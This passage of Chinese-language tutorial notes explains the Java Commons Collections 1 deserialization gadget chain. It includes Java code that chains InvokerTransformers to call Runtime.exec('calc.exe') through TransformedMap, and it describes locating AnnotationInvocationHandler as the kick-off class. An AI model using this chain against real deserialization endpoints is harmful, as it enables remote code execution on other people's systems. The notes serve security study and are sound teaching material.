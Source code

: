 #### 3.6.3 sink + chain

1. 最终，将 sink 和 chain 合并，得到以下内容：

    ```java
    // sink
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})     
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // chain
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    hashMap.put("1", "随便");
    // 实际过程中无法直接调用到该方法，需要通过 readObject 来调用它
    transformedMap.entrySet().iterator().next().setValue("123");
    ```

#### 3.6.4 kick-off

1. 首先，有三个要点：

    1. 类能被反序列化

    2. 被反序列化时，其内部的 `readObject()` 会调用类似：

        ```java
        transformedMap.entrySet().iterator().next().setValue("123");
        ```

        的代码。

    3. 这个类尽量是依赖里面的或者是 JDK 原生的。

2. 寻找思路：
    既然触发点是 `setValue()` 函数，那么就先从最简单的找起：`readObject()` 中直接调用 `setValue()` 方法的类。右键 `setValue()` ，点击 `Find Usage` 。

3. 最终寻找到一个类是 `AnnotationInvocationHandler`（需要注意的是，JDK 的版本是 1.8 的低版本，在 1.8 最新的版本中，该类的 `readObject()` 中没有调用 `setValue()` 函数，从而失效）。